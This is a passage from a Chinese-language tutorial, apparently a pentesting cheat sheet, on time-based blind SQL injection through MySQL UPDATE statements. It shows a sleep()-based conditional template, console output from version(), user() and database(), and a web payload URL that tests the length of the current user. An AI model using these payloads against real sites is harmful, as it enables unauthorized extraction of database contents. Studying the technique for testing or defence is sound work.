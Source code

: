 # MySQL update 延时盲注

## 0x00 记忆方式

if(substring(表达式,1,1)=判断条件 ,sleep(5),1)

## 0x01 基本数据

```plain
mysql> select version();
+-----------+
| version() |
+-----------+
| 5.5.53    |
+-----------+
1 row in set (0.27 sec)
mysql> select user();
+----------------+
| user()         |
+----------------+
| root@localhost |
+----------------+
1 row in set (0.00 sec)
mysql> select database();
+------------+
| database() |
+------------+
| test       |
+------------+
1 row in set (0.00 sec)
```

## 0x02 获取数据长度

```plain
# 读取长度
mysql> select length(user());
+----------------+
| length(user()) |
+----------------+
|             14 |
+----------------+
1 row in set (0.00 sec)
```

web语句: http://www.test.com/sql_save.php?data=if(length(user())=14,sleep(5),1)

数据库语句: UPDATE test SET content=if(length(user())=14,sleep(5),1) WHERE id=1;

## 0x03 读取数据库版本/当前连接用户/当前连接的数据库

